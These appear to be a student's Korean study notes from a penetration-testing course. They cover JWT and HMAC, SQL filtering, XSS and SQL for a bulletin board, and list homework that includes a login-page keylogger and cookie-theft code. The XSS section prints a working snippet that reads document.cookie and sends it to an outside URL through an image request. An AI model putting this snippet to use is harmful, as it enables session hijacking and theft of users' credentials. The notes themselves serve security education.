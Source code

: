 모의해킹 7기 4주차 - cicd

쿠키를 조작 못 하게 -> jwt
어썬ijation?
jwt token
hash값을 통해서 무결성 체크를 한다

암행어사의 마두패 같은 느낌

authorization

hmac

로그인 할 때 사용하는 sql 문에 종류가 다양하다
개행은 알겠는데
괄호는 뭐냐
필터링

# xss
공격자가 스크립트를 삽입할 수 있는 공격
피해자의 브라우저에서 공격자가 삽입한 스크립트가 실행된다

# hijack session id
```js
let cookieData = document.cookie;
```

# data send
``` js
const http = new XMLHttpRequest();
const url = 'https://normaltic.com/test.php';

http.open('GET', url);
Http.send();
Http.onreadystatechange = (e) => {
    console.log(Http.responseText);
};
```

# data send: like hacker
``` js
let cookieData = document.cookie;
let attackURL = "https://normaltic.com/getCred.php?cookie=";
new Image().src = attackURL + cookieData;
```

%3d%3d ==
==으로 끝나니까 base64일 가능성이 높겠다 <- ??? 어떤 과정을 거쳐야 이렇게 나오는 거죠???

게시판 구현 -> sql
제목, 내용, 작성자, 작성일, 조회수
게시판 글 작성: insert
게시판 글 리스트 보기: select
게시판 글 내용 읽기: select
게시판 글 수정: update
게시판 글 삭제: delete

게시판 페이징: limit (index) (count)
게시글 제목, 
where title like %var%
 = `grep *var*`

게시글 정렬
order by [column name] [asc/desc]

과제
1. burp suite: ctf 문제 풀이 -> 블로그에 올리면 플래그만 감춰서 올려요
2. js
문법 (수업 노트)에 적혀져 있는 친구 공부
만들어 놓은 로그인 페이지 키로거 만들기
쿠키 탈취 코드 짜기
3. 게시판 구현하기
자료실 익명 게시판